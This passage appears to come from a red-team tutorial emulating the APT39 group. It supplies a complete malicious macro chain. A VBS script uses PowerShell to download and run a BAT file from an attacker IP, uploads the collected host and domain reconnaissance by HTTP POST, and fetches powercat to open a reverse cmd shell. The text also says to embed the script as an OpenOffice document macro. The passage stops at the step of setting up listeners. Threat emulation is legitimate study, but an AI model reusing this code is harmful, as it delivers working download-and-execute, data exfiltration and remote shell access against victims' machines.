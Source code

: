 Here is the `update.vbs` file we'll use which does the following:

- Downloads a BAT file and saves it in `C:\Users\Public\run.bat`
- Executes the BAT file and stores the results in `C:\Users\Public\up`.
- Uploads this file to the attacking machine via HTTP POST request
- Executes the PowerShell utility tool `powercat.ps1`

```vbs
HOME="C:\Users\Public\"
SERVER="http://10.10.14.53:"

RunBat="powershell -version 2 ""&{$wc=(new-object System.Net.WebClient);$wc.DownloadFile('"&SERVER&"8443/run.bat','"&HOME&"run.bat');iex ('"&HOME&"run.bat >"&HOME&"up')}"""
Upload="powershell ""&{iwr -Uri '"&SERVER&"8888/up' -Method Post -InFile '"&HOME&"up' -UseDefaultCredentials | Out-Null}"""
RunCat="powershell -version 2 ""&{iex (new-object System.Net.WebClient).DownloadString('"&SERVER&"8443/powercat.ps1');powercat -c 10.10.14.53 -p 443 -e cmd}"""

CreateObject("WScript.Shell").Run RunBat, 0
CreateObject("WScript.Shell").Run Upload, 0
CreateObject("WScript.Shell").Run RunCat, 0
```

<br>

And here is the `.bat` file which gathers information from the victim host:

```cmd
whoami & hostname & ipconfig /all & net user /domain 2>&1 & net group /domain 2>&1 & net group "domain admins" /domain 2>&1 & net group "Exchange Trusted Subsystem" /domain 2>&1 & net accounts /domain 2>&1 & net user 2>&1 & net localgroup administrators 2>&1 & netstat -an 2>&1 & tasklist 2>&1 & sc query 2>&1 & systeminfo 2>&1 & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" 2>&1
```

<br>

To perform this attack, create a document in OpenOffice with the macro:

![](images/Emulating%20A%20Threat%20Actor%20-%20APT%2039/image000.png)<br><br>

Now set up listeners on the attacking machine:
